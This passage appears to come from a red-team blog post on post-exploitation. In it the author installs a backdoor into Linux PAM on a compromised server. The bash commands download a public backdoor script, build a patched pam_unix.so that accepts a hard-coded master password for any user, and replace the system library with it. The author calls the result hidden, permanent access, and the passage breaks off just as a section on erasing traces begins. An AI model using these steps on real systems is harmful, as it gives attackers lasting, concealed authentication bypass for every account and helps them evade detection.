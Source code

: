 
## Post exploitation

During post-exploitation, it's time for backdooring the system and remove all traces left behind.

### PAM backdoor

PAM means `Pluggable Authentication Modules`, in other words, and to be brief, it's the authentication mechanism in modern Linux systems. This mechanism is requested when you're using SSH, sudo or whatever.

Now, what would happen if we added a condition to the code? Something like: "If the password is equal to PlopPlop1337, then log me regardless of the user and the real password". Many blogs got articles about this kind of backdoor, there are even some GitHub to automate the process: https://github.com/zephrax/linux-pam-backdoor

First things to do, determine the PAM version used by the target system:

```bash
root@webserver $ dpkg -l | grep pam 
[...]
ii  libpam-modules:amd64          1.1.8-3.6                      amd64        Pluggable Authentication Modules for PAM
[...]

root@webserver $ wget https://github.com/zephrax/linux-pam-backdoor/archive/master.zip

root@webserver $ unzip master.zip 

root@webserver $ ./linux-pam-backdoor-master/backdoor.sh -v 1.1.8 -p PlopPlop1337

root@webserver $ mv /lib/x86_64-linux-gnu/security/pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so.bak

root@webserver $ mv pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so
```

The first `mv` is used to do a backup of the existing libary, in case of failure. It's simple, if I fail my backdoor installation, I will simply broke the authentication system.

Ok, the backdoor is installed, let's test:


![](/img/articles/realgsmoveinsilencelikelasagna/red_18.gif)


In two password prompt above, the password was: `PlopPlop1337`. The system is fully compromised, with perennial access to the system!


![](https://media.giphy.com/media/LwBqgdCi3nenTBU4wU/giphy.gif)


### Cleaning time

Ok, the backdoor is in place and well hidden. Now it's time to clean our mess. Here some elements to remove:
